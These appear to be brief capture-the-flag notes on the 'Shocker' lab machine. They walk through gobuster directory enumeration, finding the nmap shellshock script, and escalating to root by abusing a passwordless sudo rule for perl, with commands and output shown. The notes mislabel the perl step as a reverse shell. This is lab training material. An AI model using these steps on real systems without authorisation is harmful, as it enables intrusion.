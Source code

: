 ### From the apache version then can search out the ubuntu version -- oops..
```
[https://packages.ubuntu.com](https://packages.ubuntu.com)
```

### find shellshock exploit on kali
```
locate shellshock |grep shellshock
/usr/share/nmap/scripts/http-shellshock.nse
```
  
### gobuster: 
```
sudo gobuster dir --url http://10.10.10.56/ -w /usr/share/wordlists/dirb/common.txt -s 302,307,200,204,301,403 -x sh,pl
```

/cgi-bin is definitely something we want to check out. This is a directory where sysadmins can place scripts to be executed
```
-s: to search for diff response
-x: file extension
```

To search sub-dir: 
```
sudo gobuster dir --url http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -s 302,307,200,204,301,403 -x sh,pl
```
  
### To check nmap script, e.g.
```
locate nse |grep shellshock 
```
### if see cgi-bin, can try nmap script shellshock

### Once get the shell:
To check if the user able to exec w/o password: 
```
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l

Matching Defaults entries for shelly on Shocker:
 env_reset, mail_badpass,
 secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  
User shelly may run the following commands on Shocker:

 (root) NOPASSWD: /usr/bin/perl
```

### Use perl reverse shell to get the root:
```
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/bash"'
sudo perl -e 'exec "/bin/bash"'

whoami
root

wc -c /root/root.txt
33 /root/root.txt
```

